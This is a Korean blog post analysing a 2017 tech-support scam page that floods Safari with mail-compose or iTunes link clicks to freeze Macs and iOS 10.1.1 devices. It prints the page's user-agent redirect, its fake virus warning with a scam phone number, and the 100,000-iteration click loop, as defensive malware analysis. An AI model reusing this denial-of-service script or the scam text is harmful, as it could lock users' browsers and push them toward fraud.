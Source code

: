 ```yaml
---
layout: post
title: Scam Page triggers DoS attack on some apple product(?)
date: 2017-01-08 14:47:36.000000000 +09:00
type: post
published: true
status: publish
categories:
- Malware Analysis
tags: []
author:
  login: n0fate
  email: rapfer@gmail.com
  display_name: n0fate
---
```


*딱히 쓸만한 제목이 없어서 제목은 원 글 내용을 따옴*

@qingfro9이 보내준 말웨어 바이트 링크(감사!)인 [Tech support scam page triggers denial-of-service attack on Macs](https://blog.malwarebytes.com/101/mac-the-basics/2017/01/tech-support-scam-page-attempts-denial-of-service-via-mail-app/) 를 보고 확인 중에 아직 살아 있는 사이트(hxxp://safari-get.net)이 있길래 curl로 급하게 긁어와서 정리함.
일단 이 녀석은 `UserAgent`가 `OS 10.1.1` 버전인 운영체제를 대상으로 하는 DoS 취약점임. 링크에서는 맥이라고 써있는데 iOS 10.1.1도 대상인 것 같음. 최신 버전으로 업데이트하면 문제는 해결.

## 스테이지 1
일단 사이트에 접속하면 `index.html` 페이지가 당신을 반김. 이 페이지는 특별한건 없고 접속한 클라이언트 정보를 수집해 통계 정보를제공하는 구글 애널리틱스(google analytics) 코드가 있고, 아래는 웹 브라우저의 사용자 에이전트 정보를 찾아 운영체제 버전을 식별, 리다이렉션 함.

```javascript
	  (function(i,s,o,g,r,a,m){i['GoogleAnalyticsObject']=r;i[r]=i[r]||function(){
	  (i[r].q=i[r].q||[]).push(arguments)},i[r].l=1*new Date();a=s.createElement(o),
	  m=s.getElementsByTagName(o)[0];a.async=1;a.src=g;m.parentNode.insertBefore(a,m)
	  })(window,document,'script','https://www.google-analytics.com/analytics.js','ga');

	  ga('create', 'UA-73784359-12', 'auto');
	  ga('send', 'pageview');

	if ((navigator.userAgent.match(/OS 10.1.1/i))) {
	   location.replace("hxxp://safari-get.com/11.php");
	} else
	{
	location.replace("hxxp://safari-get.com/10.html");}

```

링크 누르면 납치당하니 좀 수정함.코드를 보면, `OS 10.1.1`, 인 경우, 즉, 아이폰 버전이 10.1.1인 경우 `11.php`로 리다이렉션하고 그 외는 `10.html` 로 리다이렉션함.

## 스테이지 2

### OS 10.1.1이 아닌 경우
일단 `10.html`은 다음과 같음.

```html

	Warning Safari Crashed!!
	 Your Apple Device May Have Adware/Spyware Virus.

	 Call<font size="35px">+1-844-423-2465</font>
immediately to connect with Apple Technical Support for installing the Protection Software. chat logs.

DATA AT RISK:

Your credit card details and banking information.Your e-mail passwords and other account passwords.Your Facebook, Skype, AIM, ICQ and other
<font size="20px">

Your private photos, family photos and other sensitive files.Your webcam could be accessed remotely by stalkers with a VPN virus.
</font>

```

사파리에 출력하는 메시지. 영어 잘 못하는 내가 봐도 문법이 이상함. 여튼 해킹 당했음이라는 메시지인데 이걸 나중에 메일 제목에도 넣음. 아래는 애플 메일 앱을 띄우는 스크립트 코드임.

```html
	jQuery('#result').append('');
```

RFC2638와 [애플 가이드라인](https://developer.apple.com/library/content/featuredarticles/iPhoneURLScheme_Reference/MailLinks/MailLinks.html)을 준수한 코드임. 내용은 다음과 같음.

* 수신자 : `foo@example.com`
* 메일 내용 : Apple Tech Support !
* 참조 : `bar@example.com`
* 제목 : Warning! Virus Detected! Immediately Call ~~~~

그냥 이것만 띄우는 것이면 DoS가 아니지. 이걸 10만번 띄우는 스크립트 코드는 아래에 있음.

```html
	 document.querySelector('a').click(0);

	 for(var i=0;i<100000;i++){
	 	 if(i>0) {

		 document.querySelector('a').click();
		 for(var x=0;x<10000;x++){
		 console.log();
		 }

	} else {
	    document.querySelector('a').click();
	    for(var x=0;x<100000;x++){
		 console.log();
	}
```

메일 보내는 창을 10만번 출력함. 악성코드 걸려서 정보 다털리는건 아니지만 걸리면 짜증날 듯. 시에라 가장 최근버전인 10.12.2에서 확인해보니 경고창을 보여주는 것으로 처리함. (위 링크에 스크린샷 있음). 아이폰에서는 무한로딩.

### OS 10.1.1 인 경우(ex. iOS 10.1.1)
10.1.1 버전인 경우 아이튠즈를 이용함. 핵심 내용은 다음과 같음.

<div class="highlighter-rouge">

```

	jQuery('#result').append('.');
	document.querySelector('a').click();
	document.querySelector('a').click();
	document.querySelector('a').click();
	document.querySelector('a').click();
	document.querySelector('a').click();
	document.querySelector('a').click();
	[..SNIP..]

```

</div>

핵심은 저 `itunes:문자열(단순한 hello임)`인데 맥에서 테스트해보면 아이튠즈를 한번만 띄움. 아이튠즈 앱 자체가 여러개 뜨는 구조가 아니기 때문인 듯.
아이폰의 경우에는 에러 메시지를 계속 발생시켜서 사파리를 사용불능 상태로 만듬. 문제를 해결하려면 단순히 사파리앱을 껐다가 키는 걸론 안되고, 설정->사파리-> `방문 기록 및 웹 사이트 데이터 지우기`를 선택해서 사파리 내역을 완전 삭제해야 함.

### 추가
`10.html` 코드를 curl로 긁다보니 다음과 같은 코드도 긁혔음.

```bash
	Editing:  
	/home/safarmcl/public_html/port-safari.net/ios.html
	 Encoding:    Re-open Use Code Editor     Close  Save Changes
```

`safari-get.net` 사이트 자체가 실제 운영보다는 테스트용 서버인지 에디팅 경고 메시지가 나타난 그대로 html 파일을 저장하였음. 실제 코드는 아이폰에서 정상작동되지 않음.

## 결론
맥, 아이폰이라고 신난다고 불법 사이트 돌아다니면 뒷통수 맞을 수 있으니 조심히 쓰자.
